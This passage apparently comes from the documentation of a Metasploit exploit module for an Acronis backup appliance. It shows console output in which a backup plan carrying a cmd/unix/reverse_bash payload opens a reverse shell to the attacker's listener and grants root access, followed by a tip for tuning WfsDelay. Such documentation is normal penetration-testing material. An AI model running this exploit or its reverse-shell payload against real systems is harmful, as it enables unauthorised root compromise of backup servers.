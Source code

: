 ```msf
[*] IP: 192.168.201.6
[*] OS: Linux: CentOS Linux release 7.6.1810 (Core)
[*] ARCH: linux
[*] ONLINE: true
[*] Import backup plan with payload for target with hostId: D287E868-EDBB-4FE9-85A9-F928AA10EE5D.
[*] Executing Unix/Linux Command with payload cmd/unix/reverse_bash
[*] Command shell session 21 opened (192.168.201.8:4444 -> 192.168.201.6:35722) at 2024-10-23 12:20:05 +0000
[+] Backup plan is successful removed.

uname -a
Linux AcronisAppliance-FCD94 3.10.0-957.27.2.el7.x86_64 #1 SMP Mon Jul 29 17:46:05 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/var/lib/Acronis/mms
```

## Limitations
In some occasions, the exploit might fail.
Adjust the `WfsDelay` advanced option might help.

